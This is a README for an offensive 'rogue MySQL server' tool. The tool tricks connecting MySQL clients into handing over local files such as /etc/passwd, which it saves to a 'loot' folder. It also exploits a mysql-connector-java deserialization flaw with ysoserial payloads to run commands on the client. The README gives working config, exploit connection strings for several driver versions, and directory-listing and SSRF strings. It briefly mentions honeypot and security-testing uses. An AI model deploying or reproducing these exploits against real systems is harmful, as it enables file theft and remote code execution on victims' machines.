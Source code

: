 # Rogue Mysql Server

A rogue mysql server based on https://github.com/vitessio/vitess, supports reading files from most mysql libraries of multiple programming languages.  
No more annoying compatible problems. You can get tested libraries in the following table.

| language | library                        | pass |
|----------|--------------------------------|------|
| go       | github.com/go-sql-driver/mysql | ✔️   |
| php      | mysqli, pdo                    | ✔️   |
| python   | pymysql                        | ✔️   |
| java     | mysql-connector-java           | ✔️   |
| native   | 10.4.13-MariaDB                | ✔️   |

If you find this tool helped you, please star 🌟 this repository.

## Feature

* Compatible with common mysql libraries
* Capability for reading binary files
* Automatic save the file
* Optional password verification if you want to use it as honeypot
* Read client's connection attributes, which may contain some useful information
* For mysql-connector-java, have the ability to exploit deserialize vulnerability when the jdbc connection string is controlled by user

## Usage

Generate the template config file, you can skip this step if you already have it.
```sh
./rogue_mysql_server -generate
```

Run rogue mysql server using config.yaml.
```sh
./rogue_mysql_server
```

Or if you want to specify a config file.
```sh
./rogue_mysql_server -config other_config.yaml
```

## Config

Example:
```yaml
host: 0.0.0.0
port: 3306
# Listening ip address and port.

version_string: "10.4.13-MariaDB-log"
# What version string client will get.

file_list: ["/etc/passwd", "C:/boot.ini"]
save_path: ./loot
# Files that waiting to be read. You need to notice that it doesn't mean you can read all files at once (many mysql libraries don't support this feature).
# The server will actually read one file in the list sequentially while the client sends one query.

always_read: true
# If this option is set to true, the rogue server won't check the client's hint of whether it supports LOAD DATA LOCAL, and always try to read the file.
# Otherwise, the rogue server will respect the client's hint.

from_database_name: false
# If this option is set to true, the rogue server will get the filename from the database name provided by the client instead of `file_list`.
# E.g. `jdbc:mysql://localhost:3306/%2fetc%2fhosts?allowLoadLocalInfile=true`.
# The server will try to read `/etc/hosts` instead of the file in `file_list`.

max_file_size: 0
# Max size of the reading file (unit in bytes). Any content in the file that exceeds this size limit will be discarded.
# If the size is less than or equal to zero, meaning no limit on size.

auth: false
users:
  - root: root
  - root: password
# If set auth to `false`, the server won't check the client's auth username and password.
# Otherwise, it must match one of `users`.

jdbc_exploit: false
always_exploit: false
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc7: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'touch /tmp/cc7']
# See section `mysql-connector-java deserialize vulnerability exploit`
```

## mysql-connector-java deserialize vulnerability exploit

After version 8.0.20 and 5.1.49, this vulnerability has been fixed.  
https://github.com/mysql/mysql-connector-j/commit/de7e1af306ffbb8118125a865998f64ee5b35b1b  
https://github.com/mysql/mysql-connector-j/commit/13f06c38fb68757607c460789196e3f798d506f2

The related configuration of vulnerability exploit is as follows.
```yaml
jdbc_exploit: false
always_exploit: false
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc7: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'touch /tmp/cc7']
```

If `jdbc_exploit` is true, the server will automatically exploit the vulnerability if the client is mysql-connector-java. The `jdbc_exploit` will disable the function of file reading, meaning you can't read the client file and exploit deserialize vulnerability at the same time.
If `always_exploit` is true, the server won't check if the client is mysql-connector-java and always try to exploit deserialize vulnerability.
The `ysoserial_command` is the command that generates deserialize payload.

You can specify the payload that will be used by the parameter `connectionAttributes` in the jdbc connection string.  
The server will get the payload that key name equals the value of `t` in `connectionAttributes`. If not found, it will use first payload in `ysoserial_command` list.

For example:    
Exploit this vulnerability in version 8.x with payload cc7. The connection string is `jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:cc7&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password`

Be aware that the server only exploits `com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor`, you can refer to the table below:

| version  | jdbc connection string                                                                                                                                                                                   |
|----------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 8.x      | jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password     |
| 6.x      | jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password |
| >=5.1.11 | jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password    |

Additionally, the mysql-connector-java support use URL (like file://, http://) as filename, to achieve listing directory or SSRF, but you need set `allowLoadLocalInfile` to true in connection string.  
You can check details in [here](https://github.com/mysql/mysql-connector-j/blob/dd61577595edad45c398af508cf91ad26fc4144f/src/main/protocol-impl/java/com/mysql/cj/protocol/a/NativeProtocol.java#L1877)  
E.g.
* Listing `/` directory, `jdbc:mysql://127.0.0.1:3306/file%3A%2F%2F%2F?allowLoadLocalInfile=true&allowUrlInLocalInfile=true`
* SSRF `http://127.0.0.1:25565`, `jdbc:mysql://127.0.0.1:3306/http%3A%2F%2F127.0.0.1:25565?allowLoadLocalInfile=true&allowUrlInLocalInfile=true`

## Ref

mysql-connector-java vulnerability exploit:  
https://github.com/fnmsd/MySQL_Fake_Server

mysql protocol related:  
https://github.com/mysql/mysql-connector-j  
https://github.com/vitessio/vitess  
https://github.com/src-d/go-mysql-server  
http://scz.617.cn:8/network/202001101612.txt  
